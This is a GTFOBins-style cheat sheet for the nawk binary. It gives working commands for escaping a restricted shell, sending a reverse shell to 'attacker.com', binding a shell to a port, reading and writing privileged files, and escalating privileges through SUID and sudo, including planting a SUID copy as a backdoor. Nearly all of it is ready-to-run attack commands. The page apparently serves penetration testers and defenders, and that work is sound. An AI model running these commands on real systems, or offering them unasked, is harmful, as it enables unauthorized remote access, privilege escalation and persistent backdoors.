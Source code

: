 # GTFOBin: nawk

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
nawk 'BEGIN {system("/bin/sh")}'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
RHOST=attacker.com
RPORT=12345
nawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
    s = "/inet/tcp/0/" RHOST "/" RPORT;
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell.

```
LPORT=12345
nawk -v LPORT=$LPORT 'BEGIN {
    s = "/inet/tcp/" LPORT "/0/0";
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
LFILE=file_to_write
nawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
nawk '//' "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which nawk) .

LFILE=file_to_read
./nawk '//' "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo nawk 'BEGIN {system("/bin/sh")}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which nawk) .

./nawk 'BEGIN {system("/bin/sh")}'
```